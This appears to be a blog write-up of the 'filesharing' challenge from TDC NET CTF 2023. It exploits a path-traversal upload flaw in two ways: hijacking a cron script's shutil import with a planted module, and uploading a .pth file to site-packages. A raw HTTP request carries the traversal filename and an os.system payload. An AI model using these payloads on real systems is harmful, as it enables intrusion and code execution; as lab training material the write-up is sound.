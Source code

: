 ```yaml
---
layout: post
title:  "TDC NET CTF 2023 - filesharing"
date:   2023-09-09 16:17:42 +0200
categories: writeups
---
```


# Filesharing
We get a service where we can upload files to, this service has a path traversal vulnerability which allows us to place any file in any directory. However overwriting files is not possible.

Additionally a cron job python script runs every 2 minutes which cleans up files in the uploads folder.

People solved this challenge in different ways, I thought that it was a bit open ended. 

## Solution 1 (From some participant)
Read the cron job in /app/cleanup.py as

```python
import os
import shutil

# specify the folder
folder = '/app/files/'

# loop through all the files in the folder
for filename in os.listdir(folder):
    file_path = os.path.join(folder, filename)
    try:
        if os.path.isfile(file_path) or os.path.islink(file_path):
            os.unlink(file_path)  # remove the file or link
        elif os.path.isdir(file_path):
            shutil.rmtree(file_path)  # remove the directory
    except Exception as e:
        print('Failed to delete %s. Reason: %s' % (file_path, e))

print("Cleanup completed.")
```
Notice that we can write to `/app` and that the script imports `shutil` and uses the `rmtree()` function. Then simply craft an evil `shutil.py` with an evil `rmtree()` function and put it in the `/app` folder and wait for the cron job to execute.

## Solution 2, my intended solution.
Some time ago I came across the following twitter post.
https://twitter.com/SinSinology/status/1646937361597739008

He uploads some pictures to show how to get code execution if you can upload a file to a server, which then executes python3.


![](1file.png)

and I think this was cool to learn.

So the solution was to upload a malicious `.pth` python script to the `/usr/local/lib/python3.9/site-packages/` directory. Here is the post request:

```
POST / HTTP/1.1
Host: site.local:5000
Content-Length: 280
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYfB3shde11wST3Ce

------WebKitFormBoundaryYfB3shde11wST3Ce
Content-Disposition: form-data; name="file"; filename="../../../usr/local/lib/python3.9/site-packages/lol.pth"
Content-Type: application/octet-stream

import os;os.system("cat /flag* > /app/static/index.html")

------WebKitFormBoundaryYfB3shde11wST3Ce--```

and then browse to the front page to read the html.